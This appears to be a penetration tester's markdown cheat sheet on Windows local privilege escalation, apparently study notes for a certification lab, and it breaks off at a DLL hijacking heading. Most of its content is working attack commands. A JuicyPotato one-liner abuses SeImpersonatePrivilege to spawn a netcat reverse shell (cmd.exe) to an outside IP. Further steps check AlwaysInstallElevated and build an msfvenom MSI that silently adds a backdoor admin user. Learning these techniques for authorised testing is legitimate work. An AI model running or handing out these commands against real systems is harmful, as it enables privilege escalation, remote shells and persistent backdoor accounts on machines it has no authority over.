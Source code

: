 ## Windows Local Escalation 

**<u>Don't rely solely on Searchsploit!</u>**

Go here if you run out of ideas:  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

### Exploitation Paths

#### User Permissions

Always start with this `whoami /priv`

- SeImpersonatePrivilege = juicypotato
  
  - ```powershell
    # Ex: 
    JuicyPotato64.exe -l 1337 -p c:\coyote\nc.exe -a "-nv 10.250.226.250 8001 -e cmd.exe" -t * -c {659cdea7-489e-11d9-a9cd-000d56965251}
    ```
    
  - If you get `COM -> recv failed with error: 10038`, try another CLSID: https://github.com/ohpe/juicy-potato/tree/master/CLSID or here http://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise/
  
  - The CLSID may pretend to work but not actually do anything.  If that happens, just try another one.  
  
  - If using this with netcat, juicypotato takes parameters to the command as `-a "params"`

#### Auto-Elevated Installs

1. Check if the AlwaysInstallElevated keys are turned on:

   ```powershell
   # Enabled per user
   reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
   
   # Enabled per machine
   reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
   ```

2. Generate an msfvenom payload in msi format:

   ```bash
   # Example Payload to create a local admin user
   msfvenom -p windows/adduser USER=drwily PASS=oscp -f msi -o backdoor.msi
   ```

3. Run the payload on Windows to have it run with elevated permissions

   ```powershell
   msiexec /quiet /qn /i C:\Windows\Temp\setup.msi
   ```

#### DLL Hijacking
